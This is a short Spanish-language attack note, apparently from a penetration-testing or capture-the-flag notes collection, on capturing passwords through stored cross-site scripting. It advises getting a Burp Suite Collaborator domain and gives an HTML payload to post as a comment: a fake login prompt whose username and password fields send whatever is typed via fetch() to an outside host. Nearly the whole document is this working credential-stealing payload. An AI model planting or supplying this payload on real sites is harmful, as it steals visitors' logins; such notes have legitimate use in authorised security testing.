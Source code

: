 # Captura de contraseñas mediante XSS almacenado 

Tags: #XSS  #JavaScript 

```bash 
// Se debe de usar BurpSuite Collaborator para obtener el dominio y crear una plantilla en HTML en el comentario del post 
```

```html
Introduce tus credenciales para ver el post:<br><br>

Usuario: <input name=username id=username onchange="fetch('https://website.com?username' + this.value)"><br><br>
Password: <input name=password id=password type=password onchange="fetch('https://website.com?password' + this.value)">
```